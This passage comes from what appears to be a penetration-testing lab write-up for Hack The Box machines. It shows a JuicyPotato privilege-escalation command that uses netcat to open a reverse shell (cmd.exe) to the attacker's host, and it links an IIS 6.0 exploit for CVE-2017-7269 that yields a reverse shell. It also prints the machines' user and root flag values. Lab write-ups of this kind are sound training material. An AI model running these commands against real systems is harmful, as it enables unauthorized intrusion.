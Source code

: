    ```bash
   copy \\10.10.14.37\coyote\winprivesc\JuicyPotato.exe c:\coyote\
   copy \\10.10.14.37\coyote\nc.exe c:\coyote\
   
   JuicyPotato.exe -l 1337 -p c:\coyote\nc.exe -a "-nv 10.10.14.37 8001 -e cmd.exe" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
   ```

   ![image-20201114125903067](.Report.assets/image-20201114125903067.png)

7. From this prompt, I was able to view the contents of the root.txt and user.txt files:
   ![image-20201114130035267](.Report.assets/image-20201114130035267.png)
   user.txt: 02650d3a69a70780c302e146a6cb96f3
   root.txt: ce65ceee66b2b5ebaff07e50508ffb90

### 10.10.10.14 - Grandpa

1. Initial nmap enumeration scans showed this target was running IIS 6.0 on Windows 2003.  Some searching showed this version of IIS has a vulnerability allowing RCE (CVE-2017-7269).  I used the exploit code here to gain a reverse shell back to my Kali Linux machine as the user : https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
